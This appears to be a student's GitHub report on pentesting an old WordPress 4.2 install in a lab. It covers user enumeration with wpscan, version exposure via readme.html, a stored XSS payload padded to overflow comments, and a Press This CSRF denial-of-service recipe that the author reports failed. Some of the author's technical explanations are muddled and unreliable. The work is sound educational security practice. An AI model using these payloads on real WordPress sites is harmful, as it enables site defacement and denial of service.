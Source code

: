 # Project 7 - WordPress Pentesting

Time spent: **10* hours spent in total

5 for setup, 5 for expoiting

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Weak Use Enumeration Protection
  - [ ] Summary: All registered users to the WP site are checked for and listed by the WPScan tool. Even better, the tool will note that default user names are in use, which may lead to default passwords also still being utilized. Having a full list of active users could lead to an easy login for a hacker. Weak passwords are common enough that if a site had dozens of users, one is bound to give away a login. 
    - Vulnerability types: User Enumeration
    - Tested in version: 4.2
    - Fixed in version: From my research, there is no obvious fix provided by WP. Instead, there are third party addons that can help prevnent User Enumeration. Even still, these have been exploited by hackers and require their own patching. Thus far, the only fix is to change the source code for how WP handles users. Although I don't quite understand how or why it works, this is some code that will change how WP handles users, and will prevent user enumeration.
     
      change in: .htaccess:
      ```
      RewriteCond %{REQUEST_URI} !^/wp-admin [NC]
      RewriteCond %{QUERY_STRING} author=\d
      RewriteRule ^ - [L,R=403]
      ```
      AND/OR
      ```
      RewriteCond %{REQUEST_URI} !^/wp-admin [NC]
      RewriteCond %{QUERY_STRING} ^author=\d+ [NC,OR]
      RewriteCond %{QUERY_STRING} ^author=\{num 
      RewriteRule ^ - [L,R=403]
      ```
      
  - [ ] GIF Walkthrough: ![](https://raw.githubusercontent.com/trezzan/RepoBoi/master/UserEnumeration.gif)
  - [ ] Steps to recreate: in Kali terminal enter
  ```
  "wpscan --url http://wpdistillery.vm --enumerate utp"
  ```
  - [ ] Affected source code: unknown
    
2. Easy Website Fingerprinting; Exposed Version #
  - [ ] Summary: The readme file for the WP site is exposed by default. Within the file is the version number of WP. Although the WPScan tool finds this easily, a user that wants to check without booting Kali or using tools can very simply check for a readme file. Once the version number is found, a simple internet search will net all possible vulns in that version number. Doing all of this without using Kali or WPScan makes for an even easier barrier of entry for any hacker to attack the WP site. 
    - Vulnerability types: Version Number Exposure
    - Tested in version: 4.2
    - Fixed in version: Not Fixed. Admins must force the readme files content to be changed or remove access to the page. 
  - [ ] GIF Walkthrough: ![](https://raw.githubusercontent.com/trezzan/RepoBoi/master/ReadMe.gif)
  - [ ] Steps to recreate: Any WP site that is known to be Wordpress: add the text
  '''
  /readme.html
  '''
  at the end. This will show the readme file and the correspondeing version number. 
  - [ ] Affected source code: unknown

3. Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: The script executed would normally not affect the site. However, when overloading it with characters beyond the size of 64 KB, the comment gets stored in the WP database instead of cache (I think that is where it goes). The leads to it executing every single time the overflow comments are read (often). When the script is stored more than once, it will freeze the site. No scrolling. No functioning links. No useability. 
    - Vulnerability types: XXS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: ![](https://raw.githubusercontent.com/trezzan/RepoBoi/master/XSS.gif)
  - [ ] Steps to recreate: Find  a section to comment on a page or post. Fields other than body don't really matter. Insert the script to alert, and overload it with characters. Submit and wait for the site to die slowly. It is important to already be approved to comment or the admin will easily deny. Post something simple first, then go in for the kill!
  - [ ] Affected source code:
    - MySQL database up to v.5.5.41

4. Press This CSRF DoS **(ATTEMPTED:FAILED)**
  - [ ] Summary: Creating a file on a secondary server and sending a link to the admin account crashes their WP site. This can be done in the comments to ensure that they are logged in. The file has commands that (if repeated enough) will DDoS the site and bring it down for a while trying to complete the URL command. 
    - Vulnerability types: XXS
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: none; all attempts unsuccessful
  - [ ] Steps to recreate:
  -On an external server, create a large text file with the command:
perl -e 'print "<>"x28000000' > foo.txt
- Next, create a file called dos.html on the external server with enough
entries to fill the connection pool of the WordPress server, as follows:
```
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=b'>
```
- [repeat as many times as preferrerd]
- (replace <wp server> with the WordPress server address and <external
server> with the external server)
- Now have a logged in admin visit dos.html. The server will be down for a
while.
  
  
  [ ] Affected source code: entire site crash
## Assets
```
<a title='x onmouseover=alert(unescape(/gawt%20hahkd/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[a whole lot of these]..AAA'></a>
```


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

- [ ] Troubles: 
  - Understanding how to correctly initiate and manage the vagrant framework was a big challenge. Now that i know how it works, it seems like very powerful tool that i can imagine security researchers clamor for. 
  - Attempting the CSRF DDoS was difficult. I have not spend enough time in 'hacker' mode to understand how, why, and when certain actions work. I was unsure why perl was required to pull off the file creation. Further, I could not get an effective link to publish. By that I mean I DID publish a link to the page, but the link was inneffective. I think the creation of it was incorrect, but I ran out of time trying to figure it out. 


## License

    Copyright [2018] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
